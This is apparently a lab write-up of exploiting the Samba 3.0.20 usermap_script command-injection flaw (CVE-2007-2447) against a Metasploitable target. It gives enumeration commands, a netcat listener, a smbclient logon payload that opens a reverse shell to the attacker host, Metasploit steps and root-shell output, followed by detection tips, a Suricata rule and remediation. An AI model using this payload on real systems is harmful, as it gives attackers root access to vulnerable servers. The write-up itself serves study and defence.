



# Samba 3.0.20 — usermap_script RCE (CVE-2007-2447)

Unlike the vsftpd backdoor, nobody poisoned the source here. This is a plain
logic bug. Samba has a `username map script` option that, when it's on, runs the
username through a shell script to map users. The catch is it does that with zero
sanitization, so you can stuff shell commands into the username field. And since
the SMB daemon runs as root, whatever you inject runs as root too.

## Target
- IP: 192.168.56.102
- Port: 139/445 (SMB/Samba)
- Service: Samba 3.0.20-Debian

## CVE
CVE-2007-2447

## Attack type
Command injection (unsanitized input handed to the shell)

## MITRE ATT&CK
- T1190 – Exploit Public-Facing Application
- T1059 – Command and Scripting Interpreter
- T1021.002 – Remote Services: SMB/Windows Admin Shares

## Mechanism

With `username map script` active, Samba passes the username straight to the shell
without checking it. Drop a shell command into the username field (inside
backticks) and you get code execution as root.

---

## Method 1: Manual exploitation

### Step 1: Enumerate SMB shares

```bash
smbclient -L 192.168.56.102 -N
```

`-L` lists the available shares; `-N` tries an anonymous connection with no
password.

### Enumeration result



Sharename Type Comment

print$ Disk Printer Drivers
tmp Disk oh noes!
opt Disk
IPC$ IPC IPC Service (metasploitable server (Samba 3.0.20-Debian))
ADMIN$ IPC IPC Service (metasploitable server (Samba 3.0.20-Debian))


### Step 2: Start a listener

```bash
nc -lvnp 4444
```

### Step 3: Send the payload

```bash
smbclient //192.168.56.102/tmp -N --option='client min protocol=NT1' -c 'logon "/=`nohup nc -e /bin/sh 192.168.56.101 4444`"'
```

I needed `--option='client min protocol=NT1'` because newer Kali defaults to
SMB2/3, which a Samba this old won't speak, so I had to force the older protocol.
The payload lives inside the backticks in the `logon` command, and that's the
part that runs as a shell command.

### Result



whoami → root
id → uid=0(root) gid=0(root)
hostname → metasploitable
cat /etc/passwd → confirms filesystem access as root


---

## Method 2: Metasploit

### Commands

```bash
msfconsole
search samba usermap
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.56.102
set LHOST 192.168.56.101
run
```

### Result



[*] Command shell session 1 opened
whoami → root
id → uid=0(root) gid=0(root)
hostname → metasploitable


The difference from the manual run is mostly convenience. Metasploit picks the
payload and sets up the listener for you, whereas doing it by hand you see exactly
what gets sent and how it runs.

---

## Detection (blue-team view)

- A username field with backticks or shell syntax. No real username looks like that.
- An outbound connection from the SMB server to an external IP and port (the reverse shell).
- A process like `nc` or `bash` spawning out of the Samba daemon. That stands out immediately in a process tree, and a SIEM will catch it.
- An unexpected outbound connection on port 4444.

## IDS signature (Suricata example)

alert tcp any 139 -> any any (msg:"Samba reverse shell outbound connection"; flow:established,to_client; sid:9000002;)


## Remediation

- Upgrade Samba past this bug (3.0.25+).
- Turn off `username map script` if you don't actually need it.
- A firewall rule that stops the SMB server from making outbound connections to arbitrary ports.
- Segment the network. SMB should be internal only, never exposed to the internet.

## Screenshots
- `02_samba_enum.png`
- `02_samba_root.png`
- `02_samba_metasploit_root.png`
